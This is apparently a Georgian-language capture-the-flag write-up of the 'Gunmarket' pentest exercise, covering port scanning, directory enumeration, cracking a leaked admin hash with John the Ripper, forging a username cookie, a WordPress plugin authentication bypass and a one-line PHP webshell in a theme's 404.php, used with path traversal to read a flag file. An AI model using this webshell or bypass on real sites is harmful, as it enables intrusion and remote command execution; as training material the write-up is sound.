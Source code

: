 # Pentest: Gunmarket

გამარჯობა, დღეს განვიხილავ კიბერ ოლიმპიადის მორიგი კატეგორიის Pentest-ის ერთ-ერთ სავარჯიშოს, Gunmarket-ს და ვეცდები, თითოეული ნაბიჯი…

გამარჯობა, დღეს განვიხილავ კიბერ ოლიმპიადის მორიგი კატეგორიის **Pentest**\-ის ერთ-ერთ სავარჯიშოს, **Gunmarket**\-ს და ვეცდები, თითოეული ნაბიჯი დეტალურად ავხსნა.

უკვე განხილული კატეგორიები თუ გაინტერესებს, შეგიძლია გაეცნოთ:

> **_Pcap Analysis_**_ — _[_https://bit.ly/2M9L7f0_](https://bit.ly/2M9L7f0)

> **_რა არის Buffer Overflow ?_**_\-_ [_https://bit.ly/2GZbNLr_](https://bit.ly/2GZbNLr)

> **Log analysis **— [https://bit.ly/2HntEMc](https://bit.ly/2HntEMc)

აღნიშნულ დავალებაში განვიხილავთ ისეთ თემებს, როგორებიცაა:

*   პორტების სკანირება
*   **Salted** პაროლების გატეხვა **JohnTheRipper** ის საშუალებით.
*   ცუდი [**cookie based authentication**](https://stackoverflow.com/questions/17769011/how-does-cookie-based-authentication-work)\- ის მაგალითს
*   დირექტორიების ენუმერაციას
*   **WPScan** ის გამოყენება და მისი დახმარებით ავტორიზაციაზე გვერდის ავლა.
*   **Webshell**

კიბერ ოლიმპიადაზე გამოყენებული სავარჯიშოები შეგიძლიათ [**cyber-lab**](https://cyber-lab.tech/geo/challenges) — ზე იხილოთ.

მაშ ასე, ამოცანის პირობა შემდეგია:

![](img/1__98M9EnXdlkwxUwRSLLgKKw.png)

მოცემული გვაქვს ორი კითხვა, რომლებიც 2 გასაღების პოვნას გვავალებს.

მოდი დავიწყოთ პირველი გასაღების ძებნა.

> **nmap -sC -sV -oA nmap/gunmarket 185.212.254.63**

*   \-**sC —** დეფაულტ სკრიპტებისთვის.
*   **\-sV —** ვერსიების ენუმერაციისთვის.
*   **\-oA nmap/gunmarket —** აუთფუთის ფაილში ჩასაწერად.

![](img/1__D8XEEFXm7GPsk5nGIRN9HQ.png)

გავიგეთ რომ საიტზე ღიაა პორტი **80**, მოდი გავხსნათ ის ვნახოთ რა გვაქვს მოცემული:

![](img/1__cFO__kHnbs4B5LHQ0HOpFxA.png)

მოცემულია მხოლოდ მარკეტის სურათი, სორსშიც საინტერესო არაფერია:

![](img/1____WoLo8SKda6rP1cWOu6uGg.png)

### გადავიდეთ დირექტორიების ენუმირაციაზე

ენუმირაციისთვის გამოვიყენოთ dirb-ი

> **dirb** [http://185.212.254.63](http://185.212.254.63)

> **P.S.** Ip თქვენ შემთხვევაში სავარაუდოთ სხვა იქნება.

**dirb**\-მა რამდენიმე საინტერესო რამ იპოვა, პირველი — ეს არის ფოლდერი **/wp**, ხოლო მეორე **/.bash\_history** ფაილი, რომელმაც სავარაუდოთ საინტერესო ინფორმაცია უნდა მოგვცემს.

![](img/1__keU__QrpsgywBP3cAsHGzVQ.png)

/**wp** დირქტორიაზე წვდომა არ გვაქვს:

![](img/1__exsoqwaUciNUT5__Z53Itjw.png)

ხოლო **/.bash\_history** — ის ნახვა თავისუფლად შეგვიძლია.

![](img/1__Q__fQ__CG8LjgKDjtkTggqHw.png)

მასში ჩახედვისას საინტერესო ინფორმაციას ვგებულობთ:

*   დირექტორია **/ctf/admin**
*   ადმინის იუზერნეიმი და პაროლი(ჰეშირებული).

![](img/1__ev366r__IXUb1nz5McPGsQQ.png)

**/ctf/admin** დირექტორიაზე გადასვლისას გვთხოვს იუზერნეიმსა და პაროლს.

![](img/1__GDZsO__z9VWARVAzNT2roRA.png)

იუზერნეიმი უკვე ვიცით, რომ **admin**\-ია, პაროლის გასაგებად კი **JohnTheRipper**\-ი გამოვიყენოთ.

პაროლის გასატეხად **john**\-თან ერთად დაგვჭირდება ვორდლისტი, ამ შემთხვევაში გამოვიყენებ **rockyou**\-ის, რომლის ჩაწერაც აღნიშნული ლინკიდან შეგიძლიათ — [**rockyou**](https://github.com/brannondorsey/naive-hashcat/releases/tag/data)**.**

### გავტეხოთ პაროლი

> რაიმე ფაილში ჩაწერეთ პაროლის ჰეში, ჩემ შემთხვევაში **gunmarket\_pass** — ში მოვათავსე ის.

![**echo ‘admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.’ > gunmarket\_pass**](img/1__gP__YxbiWgF0bddVyFIHRmw.png)
**echo ‘admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.’ > gunmarket\_pass**

> **john — wordlist=rockyou.txt gunmarket\_pass**

> სადაც **rockyou.txt** თქვენი პაროლების სიის მისამართია, ხოლო **gunmarket\_pass**\- იმ ფაილის მისამართი სადაც პაროლის ჰეშია მოთავსებული.

![](img/1__mX9qct54dYqsjj7T50JYvQ.png)

გავიგეთ ადმინის პაროლიც — **admin123.**

შეგვიძლია დავუბრუნდეთ **/ctf/admin/** დირექტორიას, სადაც **Cookie Monster**\-ის ფოტო გვხდება.

![](img/1__xtZO4G5iYEfJnLWd8z__MMw.png)

ჰინთი უკვე გასაგებია, დროა ქუქებს ჩავხედოთ:

ქუქებში ერთი ველი გვაქვს მოცემული, სახელად **username** ხოლო მისი მნიშვნელობა, ჩვენ შემთხვევაში **guest\_user**\-ია.

![](img/1__MMB37uiQ9BzamhHU8janqA.png)

მოდი შევცვალოთ **guest\_user** — **admin**\-ით და ვნახოთ რამოხდება:

![](img/1__UkHCi9dhA8kIELDjGjQtUw.png)

მივიღეთ პირველი გასაღები და ჰინთი მეორე გასაღების საძიებლად.

**/wp/wordpress**\-ზე გვხდება ვორდპრესის საიტი, რომელზეც არაფერი არ არის განთავსებული, არ გვაძლევს არანაირ მინიშნებას.

![](img/1____n1Zj1UarphnN6Mtkx9rwA.png)

მოდი ვცადოთ **WPScan** და ვნახოთ მოგვცემს თუ არა რაიმე შედეგს.

> **WPScan** არის ხელსაწყო **Wordpress** ის საიტების მოწყვლადობების საძიებლად.

**WPScan**\-მა ოთხი საინტერესო მოწყვლადობა იპოვა, პირველის საშუალებით, როგორც ის გვეუბნება შეგვიძლია ავტორიზაციაზე გვერდის ავლა.

მოდი ვცადოთ მისი გამოყენება.

![](img/1__safXuxmrNmqE5iw6boqwbA.png)

როგორც [**exploit-db**](https://www.exploit-db.com/exploits/43117) დან ვგებულობთ, თუ საიტზე დეფაულტ იუზერი **admin**\-ი გვყავს, შეგვიძლია მისი ანგარიშის გამოყენება, და საიტზე ავტორიზაციის გარეშე შესვლა ლინკში — `**?up_auto_log=true**` — ის მიმატებით.

![](img/1__OdGW0UoBe3h0VlCDW46vig.png)

გადავიდეთ ლინკზე —[**http://185.212.254.63/wp/wordpress/?up\_auto\_log=true**](http://185.212.254.63/wp/wordpress/?up_auto_log=true)

იმუშავა აღნიშნულმა ექსპლოიტმა, საიტის სამართავ პანელზე წვდომა მოვიპოვეთ.

![](img/1__Ng9Ry__Mo8CIYlfr43erpRg.png)

საიტზე წვდომა გვაქვს, შემდეგი ნაბიჯია სისტემაზე წვდომის მოპოვება.

ამისთვის გამოვიყენებ **webshell**\-ს.

უამრავ ადგილას შეგვიძლია შელის განთავსება, მე აქტიური თემის **404.php** ავირჩიე.

რომლის ნახვისთვისაც უნდა შეხვიდეთ **Appearance** შემდეგ კი **editor-**ში.

საქმე კიდევ უფრო გამარტივებული დაგხვდა, **webshell** კოდი უკვე განთავსებულაი **404.php** ში.

რომლის არ არსებობის შემთხვევაშიც, უბრალოდ დავამატებდით **webshell** კოდს და შევინახავდით ფაილს.

> echo passthru($\_GET\[‘cmd’\]);

![](img/1__1eVTnG__PJvQloVAh__e7ebQ.png)

**webshell** იც გვაქვს, მის გამოსაყენებლად საკმარისია გადავიდეთ იმ მისამართზე, სადაც ისაა განთავსებული და არგუმენტად გადავცეთ **cmd=** და შემდეგ ის ბრძანება, რისი გაშვებაც გვინდა.

საცდელად გავუშვათ **cmd=ls**

![](img/1__4Ll2U1SDlBNNwsjTCocGeg.png)

ჩვენი შელი მუშაობს, ისღა დაგვრჩენია მეორე გასაღები ვიპოვოთ.

რამდენიმე დირექტორიით უკან გასვლის შემდეგ, გვხდება ფაილი, რომელიც სავარაუდოთ ჩვენი მეორე გასაღებია.

![](img/1__ky0__7QGX2woIqhAUGkZeow.png)

მის სანახავად საკმარისია **ls** შევცვალოთ **cat** ით და მისამართში დავამატოთ ჩვენი ფაილის სახელი:

![[**http://185.212.254.50/wp/wordpress/wp-content/themes/twentyseventeen/404.php?cmd=cat%20../../../../../s3cr3t\_fil3\_for\_transactions**](http://185.212.254.50/wp/wordpress/wp-content/themes/twentyseventeen/404.php?cmd=cat%20../../../../../s3cr3t_fil3_for_transactions)](img/1__UzNPGb8BNWFOYU0qcLjHpg.png)
[**http://185.212.254.50/wp/wordpress/wp-content/themes/twentyseventeen/404.php?cmd=cat%20../../../../../s3cr3t\_fil3\_for\_transactions**](http://185.212.254.50/wp/wordpress/wp-content/themes/twentyseventeen/404.php?cmd=cat%20../../../../../s3cr3t_fil3_for_transactions)

მეორე გასაღებიც ვიპოვეთ.

კიბერ ოლიმპიადა ძალიან კარგი საშუალებაა ახალი ინფორმაციის შესასწავლად, [**cyber-lab**](https://cyber-lab.tech/) ზე შეგიძლიათ აკეთოთ სავარჯიშოები, რომლებიც გაგაცნობენ რეალურ ინციდენტებს, უამრავი ვორდპრესის **“**დეველოპერი**”** უშვებს მსგავს შეცდომას, არ ანახლებენ დროულად პლაგინებს, აყენებენ გატეხილებს (რომლებშიც გარანტირებულია მსგავში შელ კოდები).

**Feedback is welcome ;)**

